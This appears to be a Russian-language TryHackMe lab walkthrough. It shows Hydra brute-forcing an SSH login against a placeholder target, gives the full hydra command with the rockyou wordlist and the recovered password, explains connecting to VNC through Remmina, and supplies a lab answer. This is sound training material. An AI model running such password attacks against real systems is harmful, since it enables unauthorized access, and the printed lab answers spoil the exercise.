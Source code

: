 ```commandline
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "princess" - 6 of 14344399 [child 5] (0/0)
...
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "poohbear" - 111 of 14344402 [child 1] (0/3)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "patrick" - 112 of 14344402 [child 2] (0/3)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "iloveme" - 113 of 14344402 [child 6] (0/3)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "sakura" - 114 of 14344402 [child 7] (0/3)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "adrian" - 115 of 14344402 [child 15] (0/3)
[ATTEMPT] target MACHINE_IP - login "alexander" - pass "alexander" - 116 of 14344402 [child 4] (0/3)
[22][ssh] host: MACHINE_IP   login: alexander   password: sakura
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-15 13:41:01
```

Вы можете поэкспериментировать, повторив ту же команду `hydra -l alexander -P /usr/share/wordlists/rockyou.txt 
ssh://MACHINE_IP -V` на терминале AttackBox. Пароль имени пользователя alexander оказался sakura, 114-м в rockyou.
txt списке паролей. В задачах TryHackMe мы ожидаем, что любая атака завершится менее чем за пять минут; однако в 
реальных сценариях атака обычно занимает больше времени. Параметры детализации или отладки могут быть полезны, если 
вы хотите, чтобы Hydra информировала вас о ходе выполнения.    

### Подключение к VNC-серверу
Для подключения к VNC-серверу можно использовать множество клиентов. Если вы подключаетесь с AttackBox, мы 
рекомендуем использовать Remmina. Чтобы запустить Remmina, в меню Applications в правом верхнем углу щелкните группу 
Internet, чтобы найти Remmina.  

Remmina можно запустить из группы «Интернет» в меню «Приложения».

Если появится диалоговое окно с предложением разблокировать связку ключей для входа, нажмите «Отмена».

Если вас попросят разблокировать связку ключей для входа, нажмите «Отмена».

Нам необходимо выбрать протокол VNC и ввести IP-адрес целевой системы, как показано на рисунке ниже.

Чтобы подключиться к VNC-серверу с помощью Remmina, вам необходимо выбрать протокол VNC и ввести IP-адрес цели.

### Ответить на вопросы ниже
Используйте Hydra, чтобы найти пароль VNC цели с IP-адресом  MACHINE_IP. Какой пароль?
```commandline
1q2w3e4r
```
Используя VNC-клиент на AttackBox, подключитесь к цели IP-адреса  MACHINE_IP. Какой флаг написан на экране цели?
